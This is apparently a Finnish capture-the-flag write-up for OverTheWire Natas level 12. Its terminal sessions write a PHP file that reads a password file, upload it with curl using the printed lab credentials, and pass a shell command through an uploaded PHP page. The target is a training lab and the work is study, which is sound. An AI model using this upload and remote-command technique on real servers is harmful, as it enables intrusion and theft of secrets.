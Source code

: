 
Tämä _oli_ aikaisempi virhe _error_ juttuja, mutta varmuuden vuoksi lisäsin tänne sen että miltä se näyttääkään. <br>
**NÄMÄ OVAT VIRHEITÄ**
```
┌──(kali㉿kali)-[~]
└─$ php -r '$p = file_get_contents("/etc/natas_webpass/natas13"); echo $p;'
PHP Warning:  file_get_contents(/etc/natas_webpass/natas13): Failed to open stream: No such file or directory in Command line code on line 1

┌──(kali㉿kali)-[~]
└─$ php -r '$p = file_get_contents("/etc/natas_webpass/natas13"); echo $p;' > kuvat.php
PHP Warning:  file_get_contents(/etc/natas_webpass/natas13): Failed to open stream: No such file or directory in Command line code on line 1


┌──(kali㉿kali)-[~]
└─$ curl -u natas12:yZdkjAYZRd3R7tq7T5kXMjMJlOIkzDeB "http://natas12.natas.labs.overthewire.org/upload/7596oxc5k7.php?kuvat=cat%20/etc/natas_webpass/natas13"
$p = file_get_contents("/etc/natas_webpass/natas13"); echo $p;
```

![alt text](./kuvat-level11-15/natas12-Kali-2.png)


**Seuraavaksi, viralliset testit ja maaliin asti - START HERE**
Kuitenkin aikaisempien säätöä ohjeiden ja vinkkien kanssa mutta nyt päästiin maaliin asti kutienkin. Tässä joutuu aloittaa ikään kuin melkein alusta, mutta toi **PHP-info** kuva oli ainakin yksi toimiva osuus ja jotakin uutta sentään.

```
┌──(kali㉿kali)-[~]
└─$ echo "<?php \$p = file_get_contents('/etc/natas_webpass/natas13'); echo \$p; ?>" > upload.php

┌──(kali㉿kali)-[~]
└─$ curl -u natas12:yZdkjAYZRd3R7tq7T5kXMjMJlOIkzDeB -F "MAX_FILE_SIZE=1000" -F "filename=upload.php" -F "uploadedfile=@./upload.php" http://natas12.natas.labs.overthewire.org
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas12", "pass": "yZdkjAYZRd3R7tq7T5kXMjMJlOIkzDeB" };</script></head>
<body>
<h1>natas12</h1>
```